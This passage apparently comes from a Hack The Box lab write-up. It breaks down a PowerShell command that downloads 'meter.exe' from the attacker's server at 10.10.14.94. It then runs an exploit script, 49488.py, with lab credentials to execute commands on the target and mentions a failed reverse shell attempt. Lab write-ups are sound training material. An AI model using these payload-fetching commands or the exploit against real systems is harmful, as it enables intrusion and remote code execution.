 1. `-NoP`: This is a parameter for PowerShell, which stands for "NoProfile." It instructs PowerShell not to load any profiles, which can speed up the execution of the script by skipping the loading of user profiles.
2. `Invoke-WebRequest`: This is a PowerShell cmdlet used to send HTTP and HTTPS requests to a web server and then retrieves the results. It's often used for tasks such as downloading files from the internet.
3. `-Uri 'http://10.10.14.94:8000/meter.exe'`: This parameter specifies the Uniform Resource Identifier (URI) of the file to be downloaded. In this case, it's '[http://10.10.14.94:8000/meter.exe](http://10.10.14.94:8000/meter.exe)', which is the URL of the file "meter.exe" located at the specified address.
4. `-OutFile 'C:/ftp_transfer/meter.exe'`: This parameter specifies the path where the downloaded file should be saved on the local system. In this case, it's 'C:/ftp\_transfer/meter.exe'. The `-OutFile` parameter ensures that the downloaded file is saved with the specified filename and path.

If you want to check if it went through, don't think too much and just:

```
python 49488.py -u admin@htb.local -p baconandcheese -i http://10.129.230.172 -c powershell.exe -a "ls C:/ftp_transfer"
```

<figure><img src="../../../.gitbook/assets/image (547).png" alt=""><figcaption></figcaption></figure>

Unfortunately i did not manage to get a reverse shell so i'm going to do it another way:

<figure><img src="../../../.gitbook/assets/image (548).png" alt=""><figcaption></figcaption></figure>
